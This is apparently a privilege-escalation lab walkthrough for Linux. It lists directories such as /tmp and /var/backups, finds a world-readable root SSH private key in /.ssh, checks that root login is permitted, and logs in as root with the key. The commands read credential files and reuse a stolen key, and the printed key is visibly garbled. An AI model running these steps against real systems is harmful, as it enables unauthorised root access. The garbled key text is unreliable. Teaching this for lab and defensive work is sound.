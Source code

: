 Even if a machine has correct permissions on important or sensitive files, a user may have created insecure backups of these files.

It is always worth exploring the file system looking for readable backup files. Some common places include user home directories, the / (root) directory, /tmp, and /var/backups.

1. Look for interesting files, especially hidden files, in common locations:

```bash
ls -la /home/user
```

```bash
ls -la /
```

```bash
ls -la /tmp
```

```bash
ls -la /var/backups

```

3. Note that a hidden .ssh directory exists in the system root:

```bash
ls -la /
```

`drwxr-xr-x 2 root root 4096 Aug 24 18:57 .ssh`

4. In this directory, we can see a world-readable file called root_key :

```bash
ls -l /.ssh
```

total 4

`-rw-r--r-- 1 root root 1679 Aug 24 18:57 root_key`

5. Further inspection of this file seems to indicate that this is an SSH private key. The name and owner of the file suggests this key belongs to the root user:

```bash
head -n 1 /.ssh/root_key
```

```
-----BEGIN RSA PRIVATE KEY-----
TTEpATBAAKCAQEA3TIf6HcZCdn38HZ9+QADSYq9F FKFujomJaUtey JHUHZ3 /GNm gLTH3Fov2558QUGFYVD4CQ1F4NOPGnaI2WITKSPEQyXJ7Y tRTKOIOTSGHTeUEXL P4OSMTXYNOOLDCSeZuNhBZnOKL j tGUIp+dmmKbkAOWASWLTVU1LCEHRTGREWNEQ0 HhXUFddFtYrknS4GiL5TIHGbt57X0TECNRC/8suZyWzgRzbo+TvDewK3ZhBN7HD €V9651rjnVrDgs jhySUANMUTSUCTS o fUnLum+pU/d19YCKXIRp7Hgy/QKFKpFET 23620g13tQkbiXUD/ iF j+1apkLuMaVT5dCq9kQIDAQABAOTBAQDDHASDppYAGUZ2 NiMSEULYSDOZOHqQTjQZbbhZ0gks6gFqa3VH20Cm608xSghdCB3 Jvxk+i8bBISbZ ‘al GH1boX6UATZ/g/mfNgpphYnMTXxYkaDo2ry/C629nhukgEy 78HVY5TCAL790+ 5INyccuvexRPFCDUNi YTZzQqr71aCgNU2R11L87Qai6B6gIpyBICP68IA02244el UXcZTk68p9dk203tk3r/oYHF2LTkePShXBEWPIVKF/2FFPVWi1ICCHUGS27avN7 DFrushDPCCIE3 4NOSWGX/SSDRIESE4+INTSD2ZiuGDYNi22Y2e1+752LyYZANT 6J0PCYFXAOGBAP10ALpNNZ171FC1 fIqDrunUy8IT4aFx1okasy9rKeFuNusonTIN 1X+343539FKIcUPBOIY9ZK09d4tp8MISLeby/p4ITdKF43yTICbd/ FpyG2aNy3K 8241hKLQVDC9eYezWMs2pqZk/AqO2IHS1ZL4vOTOGY Z0SKIHGNGTVYhrAOGBAOLG /g070XE8X5LIE+u3VPHADQNGRZ/G1vwztPksmeqZ8/qsL2bINLhndZdd1FaPzc U7LXiuDNC15u+Pihby73rPNZ0sixkk1b5t31g10cyvYCL6hMRWLL41GGBYDBLKI Rg1CjY1cSnGTOMIUVEHY0Of roEMLf/OUVRP3VSDZAOGBATKF ISSt5Cu26XTHS 121 SXeaH90GXF1322eU4V83ZGFVNNGEANNGZEOC2p1S0SbHGVSCHM/ TIVVDp+tYi/GV d+0C5YLWXLE9bAVC+3nuBP+XPOKRFUPFUOXpA461 f6082YQZg)3r+0XLA6IAS611n jQdIGEg9U81GI9 m2D60XHFFAOGAPFatRCMUVAEFAL6t4nWNSUPVWbe hTDIy fa 8716g1RskHs15skaA7U6 T9QMXXTqNL291 1d+VACHZM7XZNEVF rY8xdu8okmCR/ok 2VIghuzMB3CFY1hez7T+tYusTfGXKIP4UGEMSYntCoagpAQYA+7T+LhkbEN7xks CLZB1TOCEYB2T b2DpCWLxjX08IRVi8+R7T2Fhh4LSFuykcDeZn10VYeCHL32EFN Ihp/Mr5B5GDMMHBRtKa1L58/NRAoKiibsCriizQegmfipo+35DNTWG6DD47RFER4 LnM9yXzn+CbTIGe IKSXUFQULSVOF6u1alNi7t9UNyayRmue 16phSu== 
-—---END RSA PRIVATE KEY-----
```

6. Before we try to use this key, let’s confirm that root logins are even allowed via SSH:

```bash
grep PermitRootLogin /etc/ssh/sshd_config
```

`PermitRootLogin yes`

```bash
chmod 600 root_key
```

7. Use the key to SSH to the target as the root account:

```bash
ssh -i root_key root@$TARGET
```
